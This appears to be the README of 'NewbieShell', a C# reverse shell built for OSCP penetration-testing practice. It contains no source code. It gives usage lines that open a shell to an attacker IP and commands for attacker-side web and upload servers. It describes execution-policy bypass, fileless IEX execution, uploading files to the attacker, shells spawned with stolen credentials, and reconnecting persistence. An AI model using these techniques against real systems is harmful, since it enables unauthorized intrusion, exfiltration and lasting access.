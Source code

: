 # NewbieShell
## Reverse shell for beginners

When preparing for the OSCP certificate, I mostly used Netcat and an msfvenom payload for a connection. The most annoying thing for me was that downloading and uploading software required a very long text. Furthermore, when the connection was interrupted, I had to rebuild the connection most of the time. Since I like to program in C#, I thought I could simplify this. With this idea the NewbieShell was born. The goal was to execute code with short keywords, like download. This saves the attacker time and nerves. Moreover, as the name "NewbieShell" suggests, this software is also intended for beginners. 

## Usage

There are three ways to use NewbieShell. The simple method in the Console.

```
NewbieShell.exe
```

In this method the program asks for an IP address, port and whether to use cmd.exe or powershell.exe as return.

The second option is to use NewbieShell like Netcat.

```
Newbieshell.exe <ip> <port> <cmd.exe or powershell.exe>
```

Example: NewbieShell.exe 192.168.0.1 80 cmd.exe

If Powershell.exe is executed, then NewbieShell executes the command "-ep bypass" in the background. This sets the ExecutionPolicy to bypass.

The third option is via a ps1 file. It is possible to run a web server on the attacker machine and then execute the code with the Powershell IEX command. Please note that in this option the IP address and the port on the ps1 file should be changed.

### NewbieShell Console
All Windows commands can be inserted normally. For example, if you want to download something from a web server, then you have the possibility to execute a download with so-called keywords. The keyword for download is #D

After entering the keyword, a query comes from the system about which file it is and so on. Further information can be found below in the documentation.

#### Temp Folder

The first time NewbieShell connects, a folder is set up under the path C:\temp. This folder is where all data is stored/downloaded

#### Download - Keyword #D

As already described above, the keyword #D is the download function. NewbieShell specifies that a web server should be running on the attacker's side. The "http.server" based on Python3, is available by default on Kali Linux. With this command a web server can be executed on the attacker machine.

```
python3 -m http.server 80
```

In the next step, the software will ask for the file that should be downloaded.
Because NewbieShell knows the IP address of the attacker. The query for the attacker IP address is omitted.

If the file has been downloaded, it can be found in the C:\temp directory.

#### IEX - Keyword #IEX

The IEX command is often used to execute malware. For example, a .ps1 file is executed without saving the file to the hard disk.
As with the download function, a web server is required. This should be executed on the attacker's computer. 

#### Upload - Keyword #U

I often had the case that I wanted to upload files such as Sharphound files to my attacker PC. I did not always want to use an SMB share. I have thought about whether this is easier. Unfortunately, the upload - function does not work with the standard Python3 "http.server", because this web server does not accept post - function. But there is another webserver which can do this. This can be easily installed with this command on the attacker side.

```
pip3 install uploadserver
```

After the web server or upload server is installed, then it can be run on the attacker machine.

```
python3 - m uploadserver 80
```

For info NewbieShell accurately indicates that the upload server should be installed and running.

NewbieShell requests the full path of the file. After a successful upload, the file should be discoverable on the attacker's site.

#### Impersonation - Keyword #I

If you have found any credentials during the attack, you have the possibility to generate a new shell with these credentials using NewbieShell.
The system will ask for the username, password and domain. If there is no domain, this line can be left blank.

#### Persistence - Keyword #P

After a disconnection, the program tries to reconnect to the attacker. A timeout period can be defined for this. After this time the program sends a new request to the attacker.

## Future

My goal would be to generate as many keywords as possible.
